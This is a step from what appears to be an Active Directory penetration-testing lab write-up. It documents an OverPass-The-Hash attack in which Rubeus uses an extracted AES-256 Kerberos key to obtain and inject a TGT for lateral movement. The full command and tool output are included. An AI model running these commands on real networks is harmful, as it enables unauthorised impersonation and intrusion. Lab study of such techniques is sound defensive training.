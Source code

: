 ### Domain Lateral Movement | OverPass-The-Hash (with Rubeus)

7) **OverPass-The-Hash for Domain Lateral Movement** (successful ✅)

Description: Used the **AES-256 Kerberos Key** of `techservice`, extracted in a previous step, to request a **TGT (Ticket Granting Ticket)** without needing the user's password. This was achieved using `Rubeus` to perform an **OverPass-The-Hash attack**. The obtained ticket was injected into a **new logon session**, allowing authenticated access as `techservice` and enabling lateral movement to `techsrv30.tech.finance.corp`.

![studvm | studentuser #>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%23>]-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:techservice /aes256:7f6825f607e9474bcd6b9c684dc70f7c1ca977ade7bfd2ad152fd54968349deb /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT📌

[*] Got domain: tech.finance.corp
[*] Showing process : True
[*] Username        : 04ZH8ONJ
[*] Domain          : 4UIN93E5
[*] Password        : UOZK2GE6
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3324
[+] LUID            : 0x5dbd08

[*] Using domain controller: tech-dc.tech.finance.corp (172.16.4.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: TECH.FINANCE.CORPtechservice
[*] Using aes256_cts_hmac_sha1 hash: 7f6825f607e9474bcd6b9c684dc70f7c1ca977ade7bfd2ad152fd54968349deb
[*] Building AS-REQ (w/ preauth) for: 'tech.finance.corp\techservice'
[*] Target LUID : 6143240
[*] Using domain controller: 172.16.4.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x5dbd08
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt/TECH.FINANCE.CORP
  ServiceRealm             :  TECH.FINANCE.CORP
  UserName                 :  techservice🎭 (NT_PRINCIPAL)
  UserRealm                :  TECH.FINANCE.CORP🏛️
  StartTime                :  3/11/2025 11:16:55 AM
  EndTime                  :  3/11/2025 9:16:55 PM
  RenewTill                :  3/18/2025 11:16:55 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  rD+bz7cOAiFFiUDjDt0KMcx5KpKUFquKg7SQQswIWEs=
  ASREP (key)              :  7F6825F607E9474BCD6B9C684DC70F7C1CA977ADE7BFD2AD152FD54968349DEB
```
